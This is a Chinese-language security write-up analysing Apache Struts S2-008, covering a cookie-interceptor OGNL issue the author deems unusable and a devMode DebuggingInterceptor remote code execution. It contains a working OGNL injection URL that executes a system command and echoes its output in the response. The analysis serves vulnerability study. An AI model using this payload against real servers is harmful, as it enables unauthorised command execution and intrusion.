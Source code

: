 # S2-008漏洞分析

这个涉及了多个鸡肋漏洞，但是思路还是可以学！

## 影响版本

Struts 2.1.0 - Struts 2.3.1

## Cookie 拦截器错误配置可造成 OGNL 表达式执行分析

还需要配置一下真恶心，之前的struts.xml

```java
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <interceptors>
            <interceptor name="cookie" class="org.apache.struts2.interceptor.CookieInterceptor"/>
        </interceptors>
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
            <interceptor-ref name="defaultStack" />

            <interceptor-ref name="cookie">
                <param name="cookiesName">*</param>
                <param name="cookiesValue">*</param>
            </interceptor-ref>
        </action>
    </package>

</struts>
```

这里看出确实可以，但是遇到一些特殊字符就无了，因此太鸡肋了甚至没必要分析了

![](img/6.jpg)



通过getCookies以后只有第二个，因此最多一些简单的表达式，复杂的就没有办法了更别说rce了

![](img/5.jpg)

主要是大多 Web 容器对 Cookie 名称都有字符限制，比如tomcat的

```java
 public static final char SEPARATORS[] = { '\t', ' ', '\"', '(', ')', ',', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '{', '}' };
```

所以没法利用，知道有这玩意儿就行了

## Struts <= 2.3.17 DebuggingInterceptor RCE

开启很简单在`struts.xml`当中添加

```xml
<constant name="struts.devMode" value="true" />
```

简单测试一下，果然是可以的

![](img/2.png)

```url
http://127.0.0.1:8080/login.action?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ifconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[1000],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

现在简单分析一下，在`org.apache.struts2.interceptor.debugging.DebuggingInterceptor`,在前面可以看到有四种模式，具体自己测试

```java
private static final String XML_MODE = "xml";
private static final String CONSOLE_MODE = "console";
private static final String COMMAND_MODE = "command";
private static final String BROWSER_MODE = "browser";
```

那为什么可以解析任意ognl表达式呢，看下面两张图够了，太简单了就这样吧

![](img/3.png)![](img/4.png)

## 其他

太鸡肋了，暂时不想搞了
